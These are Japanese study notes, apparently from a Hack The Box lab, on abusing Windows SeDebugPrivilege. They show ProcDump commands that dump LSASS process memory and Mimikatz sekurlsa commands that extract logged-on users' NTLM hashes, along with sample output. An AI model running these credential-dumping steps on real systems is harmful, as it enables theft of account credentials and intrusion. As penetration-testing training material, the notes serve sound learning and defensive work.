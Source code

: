 Debug プログラムの権利が割り当てられたユーザーとしてログオンし、昇格されたシェルを開くと、SeDebugPrivilege がリストされていることがわかる
```cmd-session
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
```

**認証情報のダンプ**
- SysInternals スイートの ProcDump を使用して、この特権を活用し、プロセスメモリをダンプできる
	- 有力な候補は、ユーザーがシステムにログオンした後にユーザー認証情報を保存するローカルセキュリティ認証サブシステムサービス (LSASS) プロセス
```cmd-session
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

- sekurlsa::minidump コマンドを使用して Mimikatz にロードできる
	- sekurlsa::logonPasswords コマンドを発行すると、ローカルでログオンしたローカル管理者アカウントの NTLM ハッシュが得られる
- mimikatzは、始まったらまず`log`と入力する
	- ログを保存できるから
```cmd-session
C:\htb> mimikatz.exe

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
```

RDP アクセス権がある場合は、タスクマネージャーを使用して LSASS プロセスの手動メモリダンプを作成できる
![](https://i.imgur.com/QxZwVi8.png)
